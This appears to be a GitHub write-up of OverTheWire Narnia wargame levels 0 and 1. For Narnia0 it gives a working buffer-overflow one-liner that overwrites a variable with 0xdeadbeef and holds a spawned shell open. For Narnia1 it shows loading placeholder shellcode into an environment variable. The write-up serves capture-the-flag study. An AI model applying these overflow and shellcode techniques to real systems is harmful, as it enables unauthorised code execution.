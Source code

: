 # Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

